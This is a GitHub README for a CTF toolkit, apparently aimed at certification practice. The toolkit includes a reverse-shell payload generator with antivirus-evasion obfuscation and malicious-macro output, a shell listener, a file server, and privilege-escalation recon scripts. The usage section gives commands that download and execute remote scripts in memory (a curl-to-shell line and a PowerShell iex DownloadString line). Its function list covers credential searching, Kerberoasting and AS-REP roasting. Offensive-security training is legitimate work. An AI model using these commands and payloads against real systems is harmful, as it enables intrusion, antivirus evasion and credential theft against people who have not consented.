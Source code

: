 # CTF support tools

A small set of python tools developed to help resolve ctfs and pass certifications

- toolpy to download tools
- Shellpy to generate payloads for reverse shells, optionally obfuscated to evade antivirus and in macro format for malicious documents
  (Shellpy can be found here --> https://github.com/KermitPurple96/Shellpy)
- shellListener to receive a reverse shell
- Servpy to start services to transfer files
- recon.ps1 to assist in the windows privilege escalation process
- recon.sh to assist in the linux privilege escalation process

## Install
```bash
git clone https://github.com/KermitPurple96/CTF_tools
```
## Usage

1. toolpy
```bash
toolpy -d rubeus
```
![image](https://github.com/user-attachments/assets/a9d69157-f2e7-4659-8885-06eb56d6e8b6)

2. [Shellpy](https://github.com/KermitPurple96/Shellpy)
```bash
shellpy <ip> <port> -powercat --obfuscate --macro
```
![shell3](https://github.com/user-attachments/assets/9bb1efe9-bcaa-49b8-b99b-b865b758eefe)
3. Shell listener
```bash
shellListener <port>
```
![image](https://github.com/user-attachments/assets/9863b3e7-6d33-4ce4-8974-f2a598920f9c)

3. Servpy
```bash
servpy
```
![image](https://github.com/user-attachments/assets/99d3721d-713d-4c79-a81f-30808ecdd0b7)


4. Load the script on Target Machine

For Linux
```bash
. <(curl 10.10.10.10/recon.sh)
```

For Windows
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))
```

Example funtions on windows:
```
PS> iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/recon.ps1'))

     ___  __    ___   ___
    /___\/ _\  / __\ / _ \  _ __ ___  ___ ___  _ __
   //  //\ \  / /   / /_)/ | '__/ _ \/ __/ _ \| '_ \
  / \_// _\ \/ /___/ ___/  | | |  __/ (_| (_) | | | |
  \___/  \__/\____/\/      |_|  \___|\___\___/|_| |_|

========================================================
                                            DannyDB@~>

[*] Auxiliary Tools:
    - aux.upload [file]               : Upload files to HTTP server via POST
    - aux.download [file]             : Perform GET to retrieve files

[*] Auxiliary Recon:
    - recon.dateScan                  : Files modified between two dates
    - recon.dateLast                  : Files modified less than 15 minutes ago
    - recon.portscan <host> [1-1024]  : Perform port scanning
    - recon.pingscan 10.10.10.        : Perform ping scan of /24 subnet
    - recon.pspy                      : Similar to pspy script
    - recon.servInfo                  : Information abaut a server

[*] General Recon:
    - recon.sys                       : System information
    - recon.users                     : User information
    - recon.programs                  : Program information
    - recon.protections               : Protection information
    - recon.process                   : Process information
    - recon.networks                  : Network information
    - recon.acl                       : File permission information

[*] Privesc Recon:
    - priv.installElev                : AlwaysInstallElevated privilege
    - priv.serv.dir                   : Service directory privilege
    - priv.serv.reg                   : Service registry privilege
    - priv.serv.unq                   : Unquoted service privilege
    - priv.cred.files                 : Known credential files privilege
    - priv.cred.history               : Credential history privilege
    - priv.owned.files                : File owner privilege
    - priv.search.fname               : Credential in file name privilege
    - priv.search.fcontent            : Credential in file content privilege
    - priv.search.sshkeys             : SSH file privilege
    - priv.search.register            : Credential in registry privilege
    - priv.search.events              : Credential in events (Admin.) privilege
    - priv.autorun                    : Scheduled tasks privilege

[*] AD Recon:
    - ad.psremote                     : Remote PowerShell privilege
    - ad.computers                    : Domain computers privilege
    - ad.users                        : Domain users privilege
    - ad.user <user>                  : Information about a user
    - ad.listusers                    : List common names for bruteforce
    - ad.groups                       : Domain groups privilege
    - ad.group <group>                : Information about a group
    - ad.spn                          : Kerberoasting accounts
    - ad.asrep                        : AS-REP Roasting users privilege

```


## Configuration

- On httpTempServ.py add your own into SHORTCUTS dictionary, add your own aliases pointing the file path to quickly access.
- Make sure that the aliases for recon.sh and recon.ps1 point to the correct path in your file system.
